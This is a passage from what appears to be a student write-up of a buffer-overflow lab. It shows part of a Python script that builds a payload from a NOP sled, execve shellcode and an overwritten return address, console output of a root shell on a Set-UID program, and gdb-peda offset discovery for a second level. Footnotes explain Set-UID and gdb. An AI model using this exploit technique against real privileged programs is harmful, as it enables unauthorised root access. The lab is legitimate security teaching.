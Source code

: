 ```python
  "\x99"
  "\xb0\x0b"
  "\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcd98 + 120           # Change this number 
offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Run <code>stack-L1</code>:

```console
~/Documents/BufferSetUID/code$ ./stack-L1
Input size: 517
# id
uid=1001(seed) gid=1001(seed) euid=0(root) groups=1001(seed),120(docker)
#
```

Root shell is obtained!

## Task 4: Launching Attack without Knowing Buffer Size (Level 2)

Before comming up with a solution, I created a $1024$-byte random pattern and run in <code>gdb</code>:

```console
gdb-peda$ pattern create 1024 pat-L2
Writing pattern of 1024 chars to filename "pat-L2"
gdb-peda$ run $(cat pat-L2)
Starting program: /home/seed/Documents/BufferSetUID/code/stack-L2-dbg $(cat pat-L2)
Input size: 517

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x90909090 
ECX: 0xffffcff0 --> 0x90909090 
EDX: 0xffffcb1d --> 0x90909090 
ESI: 0xf7faa000 --> 0x1e6d6c 
EDI: 0xf7faa000 --> 0x1e6d6c 
EBP: 0x90909090 
ESP: 0xffffc9d0 --> 0x90909090 
EIP: 0x90909090
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
```

[^1]: See "Daniel P. Bovet and Marco Cesati, *Understanding the Linux Kernel, Third Edition*, O'Reilly, 2006."
[^2]: A privileged program is one that can give users extra privileges beyond that are already assigned to them. A Set-Root-UID program is a privileged program because it allows users to gain the root privilege during the execution of the programs. For Set-UID programs in UNIX and UNIX-like operating systems, which stands for **set user ID on execution**, the effective <code>uid</code> is the owner of the program, while the real <code>uid</code> is the user of the program. Windows does not have the notion of Set-UID. A different mechanism is used for implementing privileged functionality. A developer would write a privileged program as a service and the user sends the command line arguments to the service using Local Procedure Call.
[^3]: Continue to the next source line in the current (innermost) stack frame. This is similar to <code>step</code>, but function calls that appear within the line of code are executed without stopping. Execution stops when control reaches a different line of code at the original stack level that was executing when you gave the <code>next</code> command.